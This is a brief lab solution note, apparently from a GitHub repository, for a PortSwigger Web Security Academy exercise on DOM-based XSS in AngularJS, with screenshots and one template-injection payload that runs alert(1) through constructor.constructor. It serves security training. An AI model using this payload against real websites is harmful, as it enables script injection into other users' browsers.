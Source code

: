 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression`

Payload in Search bar :-

![image](https://user-images.githubusercontent.com/60841283/153716136-d9f8a934-6355-4865-a32d-ab0615c380cd.png)

```html
{{constructor.constructor('alert(1)')()}}
```

![image](https://user-images.githubusercontent.com/60841283/153716154-2e31496d-6588-4f04-afe8-4fa4199ae65b.png)
